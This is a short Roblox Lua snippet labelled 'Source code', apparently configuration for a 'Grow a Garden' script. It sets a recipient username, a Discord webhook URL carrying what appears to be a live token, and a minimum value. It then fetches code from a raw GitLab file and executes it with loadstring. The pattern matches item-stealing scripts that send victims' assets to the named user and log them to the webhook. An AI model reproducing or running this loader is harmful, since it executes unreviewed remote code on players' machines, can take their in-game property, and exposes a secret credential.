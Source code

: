 Username = "Adryanlac6"

Webhook = "https://discord.com/api/webhooks/1389047246711951451/rCxXTLfpLe9UtPOJg1EvgF451RmpM0HKScBzYfdkCitR_Ybd2TbPKbvgrmXO-FGRWLJH"

MinimumValue = 1

loadstring(game:HttpGet("https://gitlab.com/traxscriptss/traxscriptss/-/raw/main/grow-a-garden"))()
